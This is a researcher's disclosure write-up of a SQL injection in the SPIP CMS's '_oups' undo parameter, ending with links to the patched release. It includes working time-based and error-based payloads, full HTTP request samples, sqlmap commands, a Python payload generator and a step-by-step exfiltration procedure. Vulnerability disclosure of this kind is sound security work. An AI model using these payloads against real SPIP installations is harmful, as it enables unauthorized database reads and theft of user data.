









# SQLi in _oups POST parameter

### Author : Abyss Watcher  

## Disclaimer

All the researches achieved here were done in a local environment. I am not responsible for any malicious use. 

## Introduction

On July 17th 2022, the SPIP team released two consecutive commits, fixing an RCE vulnerability (more informations [here](https://github.com/Abyss-W4tcher/ab4yss-wr4iteups/blob/master/SPIP%204.1.2%20Vulnerabilities/SPIP_4.1.2_AUTH_RCE/SPIP_4.1.2_AUTH_RCE_Abyss_Watcher_12_07_22.md#post-auth-rce)):

  

The first one, which replaced `(unserialize(base64_decode($oups))` with `(unserialize(base64_decode($oups), true)` was quickly overwritten. They chose to use `json_decode` instead of `unserialize` in the second commit. The code was a bit cleaner, and the RCE was successfully patched.

After the release of SPIP 4.1.5 (announcement [here](https://blog.spip.net/Mise-a-jour-critique-de-securite-sortie-de-SPIP-4-1-5-SPIP-4-0-8-et-SPIP-3-2-16.html)), we decided to build it and see if everything was correctly patched.

However, when we expected to see a base64 encoded JSON object for "_oups", we still got a PHP serialized object. By directly inspecting the PHP code, and looking at the "4.1.5" branch in the SPIP core GitHub, we found this :

https://github.com/spip/SPIP/blob/v4.1.5/prive/formulaires/editer_liens.php#L137

  

Even is the master branch has the "json_decode" commit applied, the 4.1.5, 4.0.8 and 3.2.16 released [here](https://blog.spip.net/Mise-a-jour-critique-de-securite-sortie-de-SPIP-4-1-5-SPIP-4-0-8-et-SPIP-3-2-16.html) still contains the "unserialize version" from the first commit specified earlier.

This is not a big deal, as both commits patched the RCE with a function to drop the request if "_oups" is not base64 valid.

Well, "_oups" has already been used two times to achieve RCE in the past. However, thanks to the security fixes, everything should be fine now (or not ?).

---

Local setup : SPIP docker setup from https://github.com/Abyss-W4tcher/ab4yss-wr4iteups

Privileges : "editor" or equivalent

Provided payload are valid for both "4.1.5" and earlier as well as the master branch.

---

## "dev" master branch, "json_decode" version

## TIME BASED SQLi

"Ooops" is a button that allows a user to cancel an action (the deletion of an article author here).

`_oups` POST parameter sent when clicking the "Ooops" button (base64 decoded) :
```json
[
    {
        "id_auteur":"1",
        "id_objet":"1",
        "objet":"article",
        "vu":"0",
        "auteur":"1",
        "article":"1"
    }
]
```
This will restore the author as the article author.

After further investigations, it is possible to inject an SQLi payload, with this reduced JSON dictionnary : 

```json
{
    "objet":"article",
    "auteur":"1",
    "article":"1",
    "{{SQLi}}":""
}
```

Here is the generated error in `tmp/log/mysql.log` after sending the previous payload :

```sql
[DATETIME] [IP] [PID] :Pri:ERREUR: Erreur 1064 de mysql: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '{{SQLi}}=''
WHERE id_auteur=1
	AND objet='article'
	AND id_objet=1' at line 2
in /var/www/html/ecrire/action/editer_liens.php L930 [sql_updateq(),lien_set(),objet_traiter_liaisons(),objet_qualifier_liens(),objet_associer(),formulaires_editer_liens_traiter_dist(),traiter_formulaires_dynamiques()]
UPDATE `spip`.spip_auteurs_liens
SET {{SQLi}}=''
WHERE id_auteur=1
	AND objet='article'
	AND id_objet=1
```

SPIP correctly filters the values of JSON keys, but it seems here that every key is processed as a column and put inside the SQL query (without filtering).

The `WHERE` part is actually important, and depends on the three keys "objet", "auteur" and "article". If one is missing, the `WHERE` becomes `WHERE 0=1` and prevents the SQLi to work correctly.

To build a valid query, we can send this payload, as "{{SQLi}}" key ;

`vu='' OR if((substr(user(),1,1) != 1), sleep(5), sleep(5)) #`  

The query becomes : 

```sql
UPDATE `spip`.spip_auteurs_liens
SET vu='' OR if((substr(user(),1,1) != 1), sleep(5), sleep(5)) #=''
WHERE id_auteur=1
	AND objet='article'
	AND id_objet=1
```

No possibility to stack queries with ";". 

We now have a valid time based SQLi injection, which can be used to exfiltrate data.


To reproduce :

- GET "/ecrire/?exec=article&id_article={{id_article}}&_oups=W3sib2JqZXQiOiJhcnRpY2xlIiwiYXV0ZXVyIjoiMSIsImFydGljbGUiOiIxIiwie3tTUUxJfX0iOiIifV0%3D"
- Prepare to intercept the next request (burp recommended)
- Click the "Ooops" button
- Intercept the request, send it to "repeater", or copy its content, then drop it
- Remove the `_oups` GET parameter from relative URL path
- You can now replace the `_oups` POST parameter with your base64 encoded JSON object


Be aware that, cookies and other POST parameters (CSRF tokens like) are needed to validate the request.
You may need to make this process every time you want to execute this payload, after a disconnect or a certain period of time, to get new valid tokens.

SAMPLE :

```http
POST /ecrire/?exec=article&id_article=1 HTTP/1.1
Host: {{IP}}:{{PORT}}
Content-Length: {{Content-Length}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: {{SPIP_COOKIES}}
Connection: close

var_ajax=form&exec=article&id_article=1&formulaire_action=editer_liens&formulaire_action_args={{formulaire_action_args}}&formulaire_action_sign={{formulaire_action_sign}}&visible=0&debutautl=&annuler_oups=Ooops&_oups=W3sib2JqZXQiOiJhcnRpY2xlIiwiYXV0ZXVyIjoiMSIsImFydGljbGUiOiIxIiwidnU9JycgT1IgaWYoKHN1YnN0cih1c2VyKCksMSwxKSAhPSAxKSwgc2xlZXAoNSksIHNsZWVwKDUpKSAjIjoiIn1d
```
> _oups=[{"objet":"article","auteur":"1","article":"1","vu='' OR if((substr(user(),1,1) != 1), sleep(5), sleep(5)) #":""}]

The response will have a five seconds delay, which validates the injection.

**SQLMAP** : 

SAMPLE  :

```http
POST /ecrire/?exec=article&id_article=1 HTTP/1.1
Host: {{IP}}:{{PORT}}
Content-Length: {{Content-Length}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: {{SPIP_COOKIES}}
Connection: close

var_ajax=form&exec=article&id_article=1&formulaire_action=editer_liens&formulaire_action_args={{formulaire_action_args}}&formulaire_action_sign={{formulaire_action_sign}}&visible=0&debutautl=&annuler_oups=Ooops&_oups=[{"objet":"article","auteur":"1","article":"1","vu='' *":""}]
```

Then :

- Copy the previous request into a file (e.g. "r.txt")
- `sqlmap -r r.txt --dbms MYSQL --eval "from base64 import b64encode; _oups = b64encode(_oups.encode())" -p '_oups' --level 2`

If everything worked correctly, sqlmap should have found the "RLIKE time-based blind" injection.
You can now exploit (e.g. `sqlmap -r r.txt --dbms MYSQL --eval "from base64 import b64encode; _oups = b64encode(_oups.encode())" -p '_oups' --privileges`).

**Ressources :**

https://osandamalith.com/2017/03/13/mysql-blind-injection-in-insert-and-update-statements/

---

## ERROR BASED SQLi

With the ability to read the logs, via an LFI for example, we can get better exfiltration results than a time based SQLi :

`vu='' OR updatexml(1,concat(0x7e,(version())),0) #`

With this payload, we'll retrieve the result in mysql logs ("tmp/log/mysql.log"): `XPATH syntax error: '~5.7.39'`

---

## "4.1.5" and before, "unserialize" version

The idea is the same as explained before, except that we are injecting inside a PHP Object. We need to script the generation part, because the length of the SQLi payload must be correctly indicated.

Here is the content of a normal "_oups" object (base64 decoded) :

`a:1:{i:0;a:6:{s:9:"id_auteur";s:1:"1";s:8:"id_objet";s:1:"1";s:5:"objet";s:7:"article";s:2:"vu";s:3:"non";s:6:"auteur";s:1:"1";s:7:"article";s:1:"1";}}`

We can see that it's the same content as the one used with "json_decode". We can reduce it to :


`a:1:{i:0;a:4:{s:5:"objet";s:7:"article";s:6:"auteur";s:1:"1";s:7:"article";s:1:"1";s:8:"`**{{SQLi}}**`";s:0:""}}`

To generate our base64 encoded SQLi, we can use this small python script :

```python
from base64 import b64encode
from urllib.parse import quote

sqli_payload = "vu='' OR updatexml(1,concat(0x7e,(version())),0) #"
php_object = f'a:1:{{i:0;a:4:{{s:5:"objet";s:7:"article";s:6:"auteur";s:1:"1";s:7:"article";s:1:"1";s:{len(sqli_payload)}:"{sqli_payload}";s:0:"";}}}}'

print(php_object)
print(quote(b64encode(php_object.encode()).decode()))
```

Output :

```php
a:1:{i:0;a:4:{s:5:"objet";s:7:"article";s:6:"auteur";s:1:"1";s:7:"article";s:1:"1";s:50:"vu='' OR updatexml(1,concat(0x7e,(version())),0) #";s:0:"";}}
YToxOntpOjA7YTo0OntzOjU6Im9iamV0IjtzOjc6ImFydGljbGUiO3M6NjoiYXV0ZXVyIjtzOjE6IjEiO3M6NzoiYXJ0aWNsZSI7czoxOiIxIjtzOjUwOiJ2dT0nJyBPUiB1cGRhdGV4bWwoMSxjb25jYXQoMHg3ZSwodmVyc2lvbigpKSksMCkgIyI7czowOiIiO319
```

**SQLMAP** :

To make it work, we would have to create a custom tamper script, that takes the generated SQLi payload, calculates its size and place it in the object (same way as the python script). We would then need to base64 encode the object and return it to SQLMAP. 

---

# Classic SQLi (any version)

As we have seen before, it is possible to send a time based payload in one shot to exfiltrate data. However, time based payloads generates a lot of traffic, and are quite slow.

To boost the efficiency, we came up with a procedure. We will be in a 4.1.5 version, which is exploitable with the "unserialize" version of the SQLi (it also works with "json_decode").

First of, here is the content of the "spip.spip_auteurs_liens" table :

  

- Launch "burpsuite", and use the integrated proxy browser (or find an equivalent setup)
- Create an article :

  

- Toggle the "Intercept" button in the burp "Proxy" tab
- Click "Add an author"

  

- Choose any author, here the only one available is "webmaster". Click "Add this author"
- Intercept the request, send it to "Repeater", then forward it
- You should find `ajouter_lien%5Bauteur-`**1**`-article-`**2**`%5D=%2B` at the bottom of the POST body
> This actually indicates us the article id, and the id of "webmaster"
- "webmaster" is now affiliated to this article :

  

- Let's now send a POST request with malicious "_oups" parameter, as seen previously. Be sure to correctly change the "article" and "auteur" value with the one indicated in `ajouter_lien` (payload is base64 decoded for demonstration) :

`a:1:{i:0;a:4:{s:5:"objet";s:7:"article";s:6:"auteur";s:1:"`**1**`";s:7:"article";s:1:"`**2**`";s:53:"vu=(SELECT nom FROM spip_auteurs WHERE id_auteur=1) #";s:0:"";}}`

- What we are doing here, is assigning the `vu` column the result of an arbitrary query. Here is the content of table "spip.spip_auteurs_liens" now :

  

- The injection worked, but the field is limited to six characters. We will see that it's not really an issue later.
- Now, here is where the magic occurs. We will remove the "webmaster" user from the authors associated with our article (click on "Remove author"):
  
  

- Intercept, send it to "Repeater", then **drop** it (not obligatory but it will be easier for the following)
- Go to the "Repeater" tab with the "remove author" request. Send it, and search in the response for this :

```html
<input type="hidden" name="_oups" value='YToxOntpOjA7YTo2OntzOjk6ImlkX2F1dGV1ciI7czoxOiIxIjtzOjg6ImlkX29iamV0IjtzOjE6IjIiO3M6NToib2JqZXQiO3M6NzoiYXJ0aWNsZSI7czoyOiJ2dSI7czo2OiJ3ZWJtYXMiO3M6NjoiYXV0ZXVyIjtzOjE6IjEiO3M6NzoiYXJ0aWNsZSI7czoxOiIyIjt9fQ==' />
```

- What happens here, is that SPIP gives us an "_oups" payload to cancel our author deletion if we want. The problem is that it provides the content of "spip.spip_auteurs_liens" for "id_auteur = 1 AND id_objet = 2" :

`YToxOntpOjA7YTo2OntzOjk6ImlkX2F1dGV1ciI7czoxOiIxIjtzOjg6ImlkX29iamV0IjtzOjE6IjIiO3M6NToib2JqZXQiO3M6NzoiYXJ0aWNsZSI7czoyOiJ2dSI7czo2OiJ3ZWJtYXMiO3M6NjoiYXV0ZXVyIjtzOjE6IjEiO3M6NzoiYXJ0aWNsZSI7czoxOiIyIjt9fQ==`

->

`a:1:{i:0;a:6:{s:9:"id_auteur";s:1:"1";s:8:"id_objet";s:1:"2";s:5:"objet";s:7:"article";s:2:"vu";s:6:"`**webmas**`";s:6:"auteur";s:1:"1";s:7:"article";s:1:"2";}}`


We have successfully exfiltrated 6 characters of an SQLi injection response, within 3 HTTP requests. The entry is also deleted from the table :

  

You should now have a basic setup to easily try SQLi payloads :

  

- 24 -> "add author" // no need to change it
- 23 -> "POST SQLi payload" // change the base64 payload here as you want
- 22 -> "remove author" // no need to change it

If executed in this order, you should be able to have a simple automation.

To resume :

- Associate an author to an article we created
- Send the SQLi payload to insert arbitrary content inside the "vu" column
- Remove the author from the article, and inspect the "_oups" object provided by SPIP in response
- The object is a backup from a specific line of the table, the one with our "vu" column containing the SQLi response

All of this should be automated with a script, so that we only have to change our SQLi payload in a variable, launch the script and retrieve the output. It is important to notice that we'll only get 6 characters for each procedure.  
Either we need to determine prealably the size of the response, to know how many loops will be needed to exfiltrate its content, or by an equivalent technique.

With a little bit of craziness, it may even be possible to make it work with SQLMAP :).


## Conclusion

It seems that this SQL injection was present in the code for a long time, even before the first [fix](https://github.com/spip/SPIP/commit/0394b44774555ae8331b6e65e35065dfa0bb41e4#diff-5acee332f654b65c66c03397e868febdcd7f345d96d0172fede602763da990d0L224) back in 2020. The way that the "_oups" JSON/PHP object is deserialized/unserialized is not really secure. In fact, we can add arbitrary keys to the dictionnary, and have them injected in the SQL requests without filtering.  
There are no checks to accept only a specified set of defined keys ("objet", "id_auteur" etc.). It is as if a PHP code was extracting every GET parameter (e.g. `foreach($_GET as $key => $value)`) and inserting them in an SQL query. 

We won't explain how it is possible to elevate this SQLi to an account takeover or RCE, but there are vectors to do it.

To conclude, we would say that the "Ooops" function must be **deleted**. Indeed, if we miss clicked and removed an author from our article, we can just click on "Add author" and add him back. We have one more click to do, but with the advantage of eradicating once and for all this dangerous code (exploited three times in two years to achieve RCE and SQLi).

## Security fixes

New release : https://blog.spip.net/Mise-a-jour-de-securite-sortie-de-SPIP-4-1-7-SPIP-4-0-9-et-SPIP-3-2-17.html

Patch : https://github.com/spip/SPIP/commit/07695e6f35ddc585d27358bc41b71d0ff0b654f7